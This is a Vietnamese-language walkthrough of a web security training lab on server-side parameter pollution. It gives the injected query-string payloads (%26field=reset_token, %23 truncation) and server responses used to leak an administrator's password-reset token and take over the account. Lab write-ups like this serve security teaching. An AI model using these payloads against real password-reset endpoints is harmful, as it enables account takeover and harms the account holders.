









# Lab: Exploiting server-side parameter pollution in a query string

## Question

To solve the lab, log in as the `administrator` and delete `carlos`.

> **Required knowledge**  
> To solve this lab, you'll need to know:
> - How to use URL query syntax to attempt to change a server-side request.
> - How to use error messages to build an understanding of how a server-side API processes user input.
>
> These points are covered in our API Testing Academy topic.

---

## Answer

Khám khá web mục tiêu, ta tìm thấy chức năng `forgot password`:



Nhập thông tin `username: administrator`





Đầu tiên thử chèn thêm 1 tham số ngẫu nhiên để xem có gì thay đổi ở phía response không:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator&a=b
```

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26a=b
```

```json
{"error": "Parameter is not supported."}
```



Phản hồi trên cho thấy server đã nhận và xử lý param `a`. Điều này là dấu hiệu rõ ràng cho thấy chúng ta có thể chèn thêm params vào request.

Thực hiện truncate chuỗi request:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%23
```

```json
{"error": "Field not specified."}
```

Có vẻ truncate thành công và đã cắt bỏ thành phần ẩn còn lại ở phía request. Và server mong đợi một param có vẻ tên là `field` để xử lý. Thêm params `field` vào request:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=a
```

```json
{"type":"ClientError","code":400,"error":"Invalid field."}
```

Nice. params `field` là đúng. Giờ thử thay đổi giá trị field trong request và nhập một giá trị đã biết `username`

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=username
```

```json
{"result":"administrator","type":"username"}
```

Thành công trả về giá trị trường username.

Tiếp theo là tiến hành dò tìm các trường ẩn khác, có thể sử dụng Intruder:





Thành công tìm thêm được 1 tham số là `email`.

Giờ thử nhập email, thêm `#` ở cuối để cắt bỏ phần request phía sau:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=email%23
```

```json
{"result":"*****@normal-user.net","type":"email"}
```

Trong trường hợp này phương pháp này không có tác dụng do email trả về bị ẩn phần lớn và cũng không có thêm thông tin gì khác.

Kiểm tra lại các http request/response, ta thấy một hàm js để xử lý phần forgot password và xác thực token qua api:

```text
/forgot-password?reset_token=${resetToken}
```

Điều đó đồng nghĩa với việc phải có một trường tên là `reset_token`.

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=reset_token
```

```json
{"result":"wy9t9kosyrhimp0w33ils8em2834nm96","type":"reset_token"}
```



Dựa vào hàm js trên và reset token vừa lấy được, ta gửi một request sau

```text
GET /forgot-password?reset_token=wy9t9kosyrhimp0w33ils8em2834nm96 HTTP/2
```



Nice. Tiến hành đổi mật khẩu và đăng nhập vào tài khoản `administrator`



Truy cập `Admin panel` và tiến hành xóa user `carlos`

Done~~
